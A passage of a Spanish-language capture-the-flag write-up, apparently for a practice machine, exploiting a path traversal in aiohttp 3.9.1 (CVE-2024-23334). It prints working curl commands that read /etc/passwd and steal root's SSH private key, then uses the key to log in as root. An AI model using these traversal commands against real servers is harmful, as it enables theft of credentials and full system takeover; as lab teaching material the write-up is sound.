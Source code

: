 Está utilizando `aiohttp/3.9.1`, "un framework cliente/servidor HTTP asíncrono para asyncio y Python".

Buscando vulnerabilidades para esta versión de esta tecnología, encontramos la [CVE-2024-23334](https://www.cve.org/CVERecord?id=CVE-2024-23334). Esta vulnerabilidad consiste en un path traversal, y consiste en a partir de un directorio estático simplemente concatenar los `../` como una ruta.

Para comprobar que se está aconteciendo esta vulnerabilidad, vamos a probar a leer el `/etc/passwd`.

```
curl --path-as-is http://127.0.0.1/assets/../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin

...etc...
```

Ha funcionado, para aprovechar esto para escalar privilegios intentaremos leer la clave privada de ssh de root.

```
curl --path-as-is http://127.0.0.1/assets/../../../../../../root/.ssh/id_rsa -o id_rsa_root
```

Le damos los permisos adecuados a la clave.

```
chmod 600 id_rsa_root
```

Y nos conectamos con la clave obtenida.

```
ssh root@10.129.235.159 -i id_rsa_root
```

Ya podemos leer la flag de root.

```
cd
cat root.txt
```

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.